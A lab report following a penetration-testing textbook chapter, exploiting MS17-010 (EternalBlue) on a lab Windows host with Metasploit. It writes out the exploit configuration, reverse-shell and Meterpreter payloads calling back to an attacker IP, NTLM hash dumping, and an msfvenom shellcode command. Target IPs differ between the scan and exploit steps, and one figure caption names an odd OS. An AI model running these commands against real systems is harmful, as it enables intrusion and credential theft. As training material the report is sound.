










# Chapter 7 — Attacking Unpatched Services
### Companion Lab Report: *The Art of Network Penetration Testing* (Royce Davis, Manning Publications, 2020)

| | |
|---|---|
| **Author** | Iliya Dehghani |
| **Source Lab** | Lab 4 |
| **Lab Environment** | Capsulecorp (VMware Workstation 17 Pro) |
| **Report Type** | Chapter walkthrough / technical lab report |

---

## 1. Objective

Chapter 7 documents the exploitation of an unpatched Windows service using the Metasploit Framework — specifically **MS17-010 (EternalBlue)** — and the transition from a basic reverse shell to a full Meterpreter session. It also covers responsible use of the public exploit database and generating operator-controlled shellcode rather than trusting unvetted third-party payloads.

## 2. Tools Used

| Tool | Purpose |
|---|---|
| Metasploit Framework (`msfconsole`) | Vulnerability scanning, exploitation, payload delivery |
| `auxiliary/scanner/smb/smb_ms17_010` | Confirming the target is missing the MS17-010 patch |
| `exploit/windows/smb/ms17_010_psexec` / `ms17_010_eternalblue` | MS17-010 exploitation modules |
| Meterpreter | Advanced post-exploitation payload/shell |
| `msfvenom` | Generating custom, operator-controlled shellcode |

## 3. Background

Even when vendors patch known vulnerabilities, enterprise-wide patch rollout is rarely complete — cost, complexity, third-party remediation dependencies, and incomplete asset inventories routinely leave individual systems exposed. A single unpatched host is a significant risk regardless of how well-secured the surrounding network is, since an attacker only needs to find that one system.

### 3.1 Understanding Software Exploits

Unpatched services expose the underlying OS to vulnerabilities that, when exploited, let an attacker redirect an application's execution flow and take control of the host. This chapter examines MS17-010 (EternalBlue) using Metasploit, covering the distinction between bind and reverse shell payloads and the capabilities of the Meterpreter shell.

### 3.2 Understanding the Typical Exploit Life Cycle

Vulnerabilities are a natural byproduct of development cycles that deprioritize security to meet release deadlines. Security researchers identify memory corruption and logic flaws using static/dynamic reverse engineering and fuzz testing, then responsibly disclose them to the vendor. Once a proof-of-concept is validated, the vendor issues a CVE and a patch; diffing the patched and unpatched binaries then lets researchers isolate the vulnerable code path, after which working open-source exploits typically emerge. MS17-010 exemplifies this cycle: reported to Microsoft in 2017 (the tenth verified vulnerability patched that year under Microsoft's naming convention), it became the basis for widely available exploit modules, including the Metasploit implementation demonstrated in this chapter.

## 4. Methodology and Walkthrough

### 4.1 Compromising MS17-010 with Metasploit

The most valuable class of vulnerability from an offensive standpoint is one affecting a passively listening network service, since exploitation requires no user interaction — unlike client-side vulnerabilities (e.g., a malicious macro), which require the victim to actively trigger execution. MS17-010 falls into this category, targeting the Windows CIFS/SMB service on TCP port 445, present by default on all domain-joined Windows systems. Reliable, zero-interaction vulnerabilities of this kind are rare — the last comparable case before EternalBlue was MS08-067 in 2008 (the basis of the Conficker worm), underscoring how significant MS17-010 is for internal network penetration testing.

#### 4.1.1 Verifying That the Patch Is Missing

Before exploitation, the Metasploit auxiliary scanner module was used to confirm the target was unpatched:

```
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 10.0.10.227
run
```


*Figure 7.1 — Scan output confirming 10.0.10.227 (Windows Server 7 Enterprise 6801 x64) is likely vulnerable to MS17-010.*

The "likely vulnerable" classification accounts for the uncommon case where an interrupted patch installation makes a service appear unpatched.

Before loading the exploit module, the attacker machine's IP address on the target network was confirmed, since it must be embedded in the reverse shell payload. A reverse shell directs the compromised host to connect outbound to the attacker, unlike a bind shell (which opens a listening port on the target) — reverse shells are preferred in penetration testing for their reliability and operational control.


*Figure 7.2 — Confirming the attacker machine's IP address (10.0.10.250) via `ifconfig` inside `msfconsole`.*

#### 4.1.2 Using the MS17-010 Exploit Modules

The exploit was configured with:

```
set rhost 10.0.10.208
set payload windows/x64/shell/reverse_tcp
set lhost 10.0.10.250
exploit
```

Initial attempts using `ms17_010_psexec` failed consistently with "Unable to find accessible named pipe!" — this module depends on an accessible named pipe for anonymous logins per the Rapid7 documentation [2], which was not available in this environment.


*Figure 7.3 — `ms17_010_psexec` failing with a named-pipe error.*

The `ms17_010_eternalblue` module [3] was used as an alternative, since it does not depend on named pipe access.


*Figure 7.4 — `ms17_010_eternalblue` configured against the target host.*


*Figure 7.5 — Confirmed remote code execution via `ipconfig` on the target machine.*

### 4.2 The Meterpreter Shell Payload

After initial exploitation, post-exploitation work (e.g., password hash extraction) is possible via a plain reverse shell, but it's operationally cumbersome — requiring manual registry hive copies and an insecure file share for exfiltration. The **Meterpreter** payload, built into Metasploit, offers integrated file transfer and a comprehensive set of post-exploitation modules instead.

To pivot to Meterpreter, the active shell session was closed with `exit`, the payload was switched with `set payload windows/x64/meterpreter/reverse_https` (an HTTPS-based reverse shell blending in with legitimate HTTPS traffic on TCP 443), and the exploit was re-run.


*Figure 7.6 — Successful Meterpreter reverse-HTTPS session established via `ms17_010_eternalblue`.*


*Figure 7.7 — Meterpreter's `help` output, listing available post-exploitation modules.*

#### 4.2.1 Useful Meterpreter Commands

The `ps` command enumerates active processes (PID, PPID, executable, architecture, session, user, path), providing insight into what's running on the target and which accounts are logged in.


*Figure 7.8 — Process listing showing `CAPSULECORP\idehghani`-owned processes alongside `NT AUTHORITY\SYSTEM` services.*

Several processes (`taskhost.exe`, `dwm.exe`, `rundll32.exe`, `explorer.exe`) ran under the domain account `CAPSULECORP\idehghani`, indicating an active user session, while the predominant system processes ran as `NT AUTHORITY\SYSTEM` — the default Windows service context.

The `shell` command drops into a native OS command prompt from within Meterpreter, and `exit` returns to the Meterpreter session without dropping the underlying connection — a significant advantage over a standalone reverse TCP shell.

Password hash extraction was performed using the `smart_hashdump` post module:

```
run post/windows/gather/smart_hashdump
```


*Figure 7.9 — NTLM password hashes extracted from the target host TIEN.*

### 4.3 Cautions About the Public Exploit Database

Exploit-DB hosts thousands of proof-of-concept exploits of varying reliability and quality, none vetted to the standard of a Metasploit module. Public exploits may contain malicious shellcode that endangers the operator and the engagement — for this reason, exploits sourced from Exploit-DB should never be used in an INPT without a full source code audit, and the embedded shellcode in particular should always be replaced with operator-generated shellcode.

#### 4.3.1 Generating Custom Shellcode

`msfvenom` was used to generate operator-controlled shellcode:

```
./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.10.250 LPORT=443 --platform Windows -f python
```


*Figure 7.10 — Python-formatted reverse-HTTPS Meterpreter shellcode targeting 10.0.10.250:443.*

This generated shellcode is tied directly to the operator's own listener, ensuring any compromised session calls back to the attacking system rather than an unknown third party — a critical safety practice when adapting exploits from public sources.

## 5. Findings / Observations

| # | Finding | Severity | Affected Host |
|---|---|---|---|
| 1 | MS17-010 (EternalBlue) unpatched, remotely exploitable with no authentication | Critical | Tien (10.0.10.208) |
| 2 | Active domain user session recoverable via process enumeration post-exploitation | Informational | Tien (10.0.10.208) |
| 3 | Local NTLM password hashes extractable via Meterpreter post-modules | High | Tien (10.0.10.208) |

## 6. Conclusion

Chapter 7 demonstrated a complete exploitation chain against an unpatched Windows host: confirming the missing patch, working around a failed exploit module by pivoting to a more reliable alternative, and upgrading from a basic reverse shell to a full Meterpreter session. The successful extraction of NTLM hashes via `smart_hashdump` sets up the credential-harvesting and lateral-movement work covered in Chapter 8, and reinforces that timely patch management for even a single legacy host is critical to preventing a full network compromise.

## 7. References

[1] R. Davis, *The Art of Network Penetration Testing*, Manning Publications, 2020.

[2] Rapid7, "ms17_010_psexec." [Online]. Available: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/ms17_010_psexec.md

[3] Rapid7, "ms17_010_eternalblue." [Online]. Available: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/ms17_010_eternalblue.md
